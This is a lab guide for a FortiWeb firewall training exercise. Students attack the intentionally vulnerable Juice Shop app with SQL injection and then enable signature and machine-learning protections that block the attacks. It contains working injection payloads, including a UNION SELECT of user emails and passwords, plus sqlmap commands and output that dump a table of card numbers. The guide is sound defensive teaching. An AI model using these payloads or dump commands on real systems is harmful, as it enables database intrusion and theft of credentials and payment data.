---
mark_as_read:
    updated_at: 2024-03-24 17:00:00+03:00
---

# Lab 8: SQL Injection

## Task 1: Launch SQL Attack

1. Disable the Web Protection Profile under Juice Shop Server Policy. No screenshots - it's a small challenge :) 

1. Open a the browser in Kali Linux VM and type the Public IP assigned to the FortiWeb instance followed by port 3000 to get to the JuiceShop Web Page. http://FortiWebIP:3000

1. Launch an SQLi attack append ```?name=' OR 'x'='x``` to the URL.

    The URL will be similar to: ```http://35.192.193.224:3000/?name=' OR 'x'='x```

1. Press **ENTER**, to see that the website is vulnerable to SQLi attacks. Try another one; append the following text to website's URL:

    ```/rest/products/search?q=qwert%27%29%29%20UNION%20SELECT%20id%2C%20email%2C%20password%2C%20%274%27%2C%20%275%27%2C%20%276%27%2C%20%277%27%2C%20%278%27%2C%20%279%27%20FROM%20Users--```

    The URL will be similar to: http://35.192.193.224:3000/rest/products/search?q=qwert%27%29%29%20UNION%20SELECT%20id%2C%20email%2C%20password%2C%20%274%27%2C%20%275%27%2C%20%276%27%2C%20%277%27%2C%20%278%27%2C%20%279%27%20FROM%20Users--

1. Press ENTER to view a list of SQL Users

    

## Task 2: Protect WebServer

1. Navigate to: **Policy** -> **Server Policy**, select **JuiceShop_server_policy** and click 

1. Scroll down to **Web Protection Profile**, select **WP_JuiceShop** and click 

    

1. In **Signatures** select **Standard Protection** and click **OK** twice

    

1. Repeat the same step to perform SQLi attack in the browser.

    For example: http://35.192.193.224:3000/?name=' OR 'x'='x

1. FortiWeb is blocking the request

    

## Task 3: Burp Suite

Burp Suite gives us a quick and easy way to query targeted sites.

1. Log into the Jumpbox using the public IP from the Qwiklabs Student Resources


1. At the bottom of the page, click on the terminal icon and run the following command

    ```bash
    burpsuite
    ```

1. Burp Suite will pop up. Accept all of the warnings and EULAs. Leave Temporary Project selected and click Next

    

1. Leave "Use Burp defaults" selected and click **Start Burp**.

    

1. Accept the warning that Burp Suite is out of date and then select **Settings** at the top right of the screen.

    

1. In the settings menu, select **Burp's browser**. Under **Browser running** check the box for "**Run Burp's browser without a sandbox**"

    

1. Click on the **Proxy** tab at the top of the Burp Suite screen to view the Intercept screen. Click on **Open Browser**

    

1. In the browser URL enter [http://fortiweb-public-ip:3000](http://fortiweb-public-ip:3000)

1. Minimize the browser and click on the **HTTP History** tab under Proxy. Scroll down the list to find a URL labeled "**/rest/products/search?q=**". Select this line and right click. Then click on **Send to Repeater**.

    

1. At the top of Burp Suite, Click on the **Repeater** tab to view the request, click the **Send** button

    

1. Click on the first line in the **Raw** request and add **'--** to append to the request. The GET request is **/rest/products/search?q='--**. Click **Send**, and an error in the **Response** section is displayed. This error indicates the database is **SQLITE** and reveals a vulnerability.

    

    !!! warning
        The standard signature based Web Protection Profile did not catch this injection attempt. This type of attack is mitigated using ML in subsequent steps.

## Task 4: Disable Web Protection

1. Navigate to: **Policy** -> **Server Policy** and edit **JuiceShop_server_policy**

1. Click the drop down next to **Web Protection Profile** and turn off select the blank box at the top. Click 

    

## Task 5: SQLMAP Exploit

1. Open a terminal on the Jumpbox, and view the SQLMAP help page.

    ```bash
    sqlmap -h
    ```

1. Input the command in the terminal, substituting **FortiWeb Public IP**

    ```bash
    sqlmap -u "http://FortiWeb Public IP:3000/rest/products/search?q=" --dbms=SQLite --technique=B --level 3 --batch
    ```

    ```plaintext
    ...[SNIP]...
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: q (GET)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: q=') AND 1976=1976 AND ('zuWc' LIKE 'zuWc
    ---
    ...[SNIP]...
    ```

1. Increase the number of threads to complete the requests faster by adding the **--threads 10**

    ```bash
    sqlmap -u "http://FortiWeb Public IP:3000/rest/products/search?q=" --technique=B --tables --threads 10
    ```

    ```plaintext
    <current>
    [20 tables]
    +-------------------+
    | Addresses         |
    | BasketItems       |
    | Baskets           |
    | Captchas          |
    | Cards             |
    | Challenges        |
    | Complaints        |
    | Deliveries        |
    | Feedbacks         |
    | ImageCaptchas     |
    | Memories          |
    | PrivacyRequests   |
    | Products          |
    | Quantities        |
    | Recycles          |
    | SecurityAnswers   |
    | SecurityQuestions |
    | Users             |
    | Wallets           |
    | sqlite_sequence   |
    +-------------------+
    ```

1. Execute the following command in the Jumpbox terminal. Answer N (no) when prompted.

    ```bash
    sqlmap -u "http://FortiWeb Public IP:3000/rest/products/search?q=" --technique=B -T Cards --threads 10 --dump
    ```

    > do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
      do you want to crack them via a dictionary-based attack? [Y/n/q] N
      Database: <current>
      Table: Cards
      [6 entries]
      +----+--------+-----+------------------+---------+----------+------------------+--------------------------------+--------------------------------+
      | id | UserId | 255 | cardNum          | expYear | expMonth | fullName         | createdAt                      | updatedAt                      |
      +----+--------+-----+------------------+---------+----------+------------------+--------------------------------+--------------------------------+
      | 1  | 4      | 255 | 4815205605542754 | 2092    | 12       | Bjoern Kimminich | 2022-03-28 17:02:26.911 +00:00 | 2022-03-28 17:02:26.911 +00:00 |
      | 2  | 17     | 255 | 1234567812345678 | 2099    | 12       | Tim Tester       | 2022-03-28 17:02:27.287 +00:00 | 2022-03-28 17:02:27.287 +00:00 |
      | 3  | 1      | 255 | 4716190207394368 | 2081    | 2        | Administrator    | 2022-03-28 17:02:27.308 +00:00 | 2022-03-28 17:02:27.308 +00:00 |
      | 4  | 1      | 255 | 4024007105648108 | 2086    | 4        | Administrator    | 2022-03-28 17:02:27.308 +00:00 | 2022-03-28 17:02:27.308 +00:00 |
      | 5  | 2      | 255 | 5107891722278705 | 2099    | 11       | Jim              | 2022-03-28 17:02:27.330 +00:00 | 2022-03-28 17:02:27.330 +00:00 |
      | 6  | 3      | 255 | 4716943969046208 | 2081    | 2        | Bender           | 2022-03-28 17:02:27.344 +00:00 | 2022-03-28 17:02:27.344 +00:00 |
      +----+--------+-----+------------------+---------+----------+------------------+--------------------------------+--------------------------------+

## Task 6: ML Anomaly Detection

1. Navigate to [https://github.com/FortiLatam/juiceshop/blob/main/helpers/JuiceShop_.MLanomaly.dat](https://github.com/FortiLatam/juiceshop/blob/main/helpers/JuiceShop_.MLanomaly.dat)

1. Download the .dat file:

    

1. Because we are using a pre-trained data model based on a wildcard url, we will need to use a domain name. For this test, we are going to edit the **/etc/hosts** file on Kali. This will allow us to locally resolve **student.fwebtraincse.com**. Open a new Terminal and use the directional arrows on your keyboard to navigate. When you get to the bottom of the hosts file, input **FORTIWEB PUBLIC IP** **student.fwebtraincse.com**. Use INSERT to start editing the file. To exit saving the file: ESC then type ```wq!``` and ENTER. To exit without saving: ESC then type ```q!``` and ENTER

    

1. Navigate to **Policy** -> **Server Policy** and edit **JuiceShop_server_policy**. Scroll down and expand the Machine Learning section. Under **Anomaly Detection** click on the **+** icon and enter **student.fwebtraincse.com** and click 

    

1. Click the **Import** icon.

    

1. Click on browse. Find and select the .dat file that was downloaded earlier and click 

1. Navigate to **Web Protection** -> **ML Based Anomaly Detection** and edit the first entry. Click the **"*.fwebtraincse.com"** link.

    

1. Select the **Tree View** tab to expand the domain menu, and click **Search**

    

1. Go back to Kali and open **Burp Suite Proxy** -> **Intercept** and click on **Open browser** in the new browser window, input the URL, using the DNS name from earlier:

    ```http://student.fwebtraincse.com:3000```

1. In the Burp Suite window click on **Proxy** > **HTTP history** scroll through to find a host entry with the **full DNS Name** and the the url **/rest/products/search?q=***. Right click and select **Send To Repeater**

1. From the **Repeater** tab. Edit the first entry again, adding '--. In the **Response** section, a **"500 Internal Server Error"** is displayed. Scroll to the bottom to view **Attack ID** and other information in the **Block Notification**.

    

1. Navigate to: **Dashboard** -> **FortiView Threats** and click **SQL Injection Threat**

    

1. Drill into the threat log to view **Log Details**, to view the request blocked by **Machine Learning**

    


 !!! tip
        Thank you for participating! Check your CTF for the remaining questions. I hope you had fun learning something new today :)
